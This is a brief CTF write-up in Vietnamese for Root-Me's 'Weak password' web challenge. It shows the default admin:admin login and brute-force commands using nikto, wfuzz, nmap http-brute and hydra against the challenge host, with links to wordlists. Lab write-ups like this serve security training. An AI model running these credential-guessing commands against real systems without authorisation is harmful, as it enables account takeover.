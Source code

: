 ```yaml
---
title: Weak password
date: '2022-08-31'
tags: ['root-me', 'writeups','web','server','weakpassword']
draft: false
summary: Writeup of Weak password challenges.
---
```


#Bài này có rất nhiều cách:

**Option1, test thử account 1 phát ăn luôn**
``` admin:admin```

**Option2, dùng 1 bash trong list dưới đây đều được:**

- nikto: 
```bash 
$ nikto -host http://challenge01.root-me.org/web-serveur/ch3/ 
```

- wfuzz: 
```bash 
$ wfuzz -c -w /usr/share/seclists/Passwords/Common-Credentials/top-20-common-SSH-passwords.txt --basic admin:FUZZ http://challenge01.root-me.org/web-serveur/ch3/ 
```

- nmap: 
```shsh 
$ nmap -d -vv -p 80 --script http-brute --script-args http-brute.path=/web-serveur/ch3/ challenge01.root-me.org
```

- hydra:  
```sh 
$ hydra -L userList.txt -P passwordsList.txt 212.129.38.224 http-head /web-serveur/ch3/ 
```

  - users list inspired by http://blog.infowebmaster.fr/public/resource/wordpress-brute-force-login-a-eviter.txt
  - passwords list downloaded from http://blog.teckn0.com/wp-content/uploads/brute_force/Liste_mot_%20anglais.7z
